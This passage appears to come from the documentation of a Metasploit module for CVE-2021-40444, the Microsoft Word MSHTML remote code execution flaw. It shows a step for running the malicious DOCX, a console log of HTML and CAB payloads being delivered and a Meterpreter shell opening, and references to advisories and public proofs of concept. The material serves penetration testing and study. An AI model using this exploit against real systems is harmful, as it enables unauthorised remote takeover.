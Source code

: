 3. Execute the DOCX document on a remote vulnerable system.

```
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: f3189fad
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
[*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 3b8886e6
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
[*] Sending stage (200262 bytes) to 172.20.7.36
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:59004) at 2021-11-08 19:51:01 +0400
```

## References

  1. <https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444>
  2. <https://www.sentinelone.com/blog/peeking-into-cve-2021-40444-ms-office-zero-day-vulnerability-exploited-in-the-wild/>
  3. <http://download.microsoft.com/download/4/d/a/4da14f27-b4ef-4170-a6e6-5b1ef85b1baa/[ms-cab].pdf>
  4. <https://github.com/lockedbyte/CVE-2021-40444/blob/master/REPRODUCE.md>
  5. <https://github.com/klezVirus/CVE-2021-40444>
